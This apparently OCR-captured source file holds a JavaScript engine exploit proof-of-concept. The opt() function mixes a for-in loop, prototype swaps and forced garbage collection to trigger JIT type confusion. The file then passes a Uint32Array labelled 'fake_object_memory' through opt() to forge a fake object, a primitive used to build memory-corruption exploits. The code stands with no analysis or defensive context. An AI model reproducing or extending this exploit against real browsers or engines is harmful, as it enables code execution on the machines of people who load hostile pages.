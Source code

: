 
function gc() {
    for (let i = 0; i < 10; i++) {
        let ab = new ArrayBuffer(1024 * 1024 * 10);
    }
}

function opt(obj) {
    
    for (let i = 0; i < 500; i++) {

    }

    let tmp = {a: 1};

    gc();
    tmp.__proto__ = {};

    for (let k in tmp) {  
        tmp.__proto__ = {};

        gc();

        obj.__proto__ = {};  

        return obj[k];  
    }
}

opt({});

let fake_object_memory = new Uint32Array(100);
fake_object_memory[0] = 0x1234;

let fake_object = opt(fake_object_memory);
print(fake_object);

